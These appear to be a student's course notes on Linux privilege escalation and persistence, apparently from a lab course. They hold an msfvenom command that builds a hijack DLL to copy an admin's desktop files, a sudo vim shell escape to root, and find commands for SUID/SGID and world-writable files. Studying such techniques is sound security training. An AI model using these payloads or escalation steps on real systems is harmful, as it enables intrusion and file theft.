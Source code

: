 msfvenom to copy contents of desktop -> msfvenom -p windows/exec CMD='cmd.exe /C "xcopy C:\Users\Admin\Desktop C:\Users\comrade.WIN2-INTERNAL-D\Desktop\ /s"' -f dll > hijackmeplz.dll
Linux Exploitation / Privilege escalation
https://sec.cybbh.io/public/security/latest/lessons/lesson-10-linux-exploit_sg.html

**Objectives**
Adding or hijacking a user account
Implementing boot process persistence
Adding or modifying a CRON job
Additional methods outside the scope of the SG

**Privilege escalation**
**run sudo -l** when ya get on a box to see what you can run.
**can escalate** opening sudo vim /etc/ssh/sshd_config, then :!sh to gain root access. (that file is an example, can be any file you can sudo vim into.)
can do the same thing as above w "sudo less /etc/ssh/sshd_config"
more examples of these at: https://gtfobins.github.io/

**Sudo file config** -> in /etc/sudoers
%sudo ALL=(ALL:ALL) ALL -> on all hosts, anyone in this group / user can sudo as all users and all groups to execute all commands. % means its a group, no % is user.
ex:
murphy ALL=/usr/bin/halt,/usr/bin/poweroff,/usr/bin/reboot
This rule allows user murphy to run /usr/bin/halt, /usr/bin/poweroff and /usr/bin/reboot as root.

**SUID/SGID** -> for the user or group that owns the file. 
ls -l /usr/bin/passwd
-rwsr-xr-x 1 root root 59640 Nov 29  2022 /usr/bin/passwd
This has the SUID bit turned on. 

Find all files w/ the SUID bit turned on:
    find / -type f -perm /4000 -ls 2>/dev/null

Find all files w/ the SGID bit turned on:
    find / -type f -perm /2000 -ls 2>/dev/null

Find all files w/ SUID & SGID turned on:
    find / -type f -perm /6000 -ls 2>/dev/null

Check what is returned against GTFObins to see what you can exploit. 

**Insecure Permissions**
CRON
World-Writable Files and Directories
Dot '.' in PATH

**CRON**
/etc/cron.d .daily, .hourly .weekly .monthly .weekly (etc ones are system level crons)
/var/spool/cron/crontabs/student (or whoever created it) -> user created crons.
-e to edit crontab, -l to list crontab, -u specify the user, -r remove crontab
crontab.guru to check cron job times. ex: crontab -e

**World-Writable Files and Folders** -> file that anyone can write into
ex: /tmp & /var/tmp

World writable files and directories can be identified with the following command:
    find / -type f -perm /2 -o -type d -perm /2 2>/dev/null # Search for any file or directory that is writable by the context "other" 
